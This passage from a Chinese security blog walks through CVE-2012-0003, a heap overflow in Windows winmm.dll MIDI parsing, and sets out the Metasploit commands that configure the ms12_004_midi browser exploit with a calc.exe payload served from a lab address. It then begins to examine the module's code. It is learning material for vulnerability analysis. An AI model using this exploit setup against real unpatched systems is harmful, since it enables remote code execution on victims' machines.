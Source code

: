 > 原文链接: https://www.anquanke.com//post/id/85089 


# 【技术分享】《漏洞战争》cve-2012-0003学习分析


                                阅读量   
                                **123963**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**<br>**

**[![](https://p0.ssl.qhimg.com/t01d3e1d28f70446651.jpg)](https://p0.ssl.qhimg.com/t01d3e1d28f70446651.jpg)**

作者：[quanyechavshuo](http://bobao.360.cn/member/contribute?uid=1255579132)

预估稿费：300RMB（不服你也来投稿啊！）

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**0x00 about**



这个漏洞是由于微软的多媒体库winmm.dll(c:windowssystem32winmm.dll)在处理MIDI文件时，由于对数据的处理不当导致的"堆溢出"，攻击者可以在网页中嵌入特殊的MIDI文件来远程执行任意代码。

<br>

**0x01 准备工作**



使用msf中的exp：<br>

```
msfconsole
    search cve-2012-0003
    use exploit/windows/browser/ms12_004_midi
    set uripath test.html
    set payload windows/exec
    set cmd calc.exe
        server started
        http://192.168.118.129:8080/test.html
```

奇怪的是在系统中不存在test.html，但是访问上面生成的网马链接确实会中马，后来查看msf中的exp:ms12_004_midi.rb，里面生成html的代码为：<br>

```
send_response(cli, html, `{`'Content-Type'=&gt;'text/html'`}`)
```

send_response函数在msfapi中有如下用法：
